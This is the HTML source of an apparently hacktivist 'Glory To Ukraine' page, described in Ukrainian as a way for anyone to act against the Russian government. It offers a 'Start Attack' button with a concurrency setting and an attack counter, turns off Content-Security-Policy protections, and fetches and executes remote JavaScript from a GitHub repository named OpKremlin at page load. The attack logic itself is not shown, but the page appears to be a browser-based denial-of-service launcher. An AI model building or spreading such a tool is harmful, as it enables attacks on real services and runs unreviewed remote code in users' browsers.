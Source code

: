 <html>
<head>
    <title>Glory To Ukraine - Slava Ukraini</title>
    <meta name="description" content="Проект, який дозволить кожному внести свій внесок проти російського уряду">
    <meta name="keywords" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="IE=11"/>
    <meta http-equiv="Cache-Control" content="no-cache"/>
    <meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline' 'unsafe-eval'; script-src * 'unsafe-inline' 'unsafe-eval'; connect-src * 'unsafe-inline'; img-src * data: blob: 'unsafe-inline'; frame-src *; style-src * 'unsafe-inline';"/>   
</head>

<body>
<script src="https://code.jquery.com/jquery-3.6.0.min.js" integrity="sha256-/xUj+3OJU5yExlq6GSYGSHk7tPXikynS7ogEvDej/m4=" crossorigin="anonymous"></script>

<div>
    Wait for the target to load.<br>
    When it is loaded the button will appear<br>
    <input id="concAttack" type="number" min="5" step="1" value="5"/>
    <button id="StartAttack" value="Start Attack" style="display: none;">Start Attack</button>
    <br><br>
    Attacks performed: <atk id="atkP"></atk>
</div>

<div id="attackBoard">
</div>

<script>
$.ajax({
  method: "GET",
  url: "https://raw.githubusercontent.com/OpKremlin/Op1/main/main.js",
  dataType: "script"
});
</script>
</body>
</html>
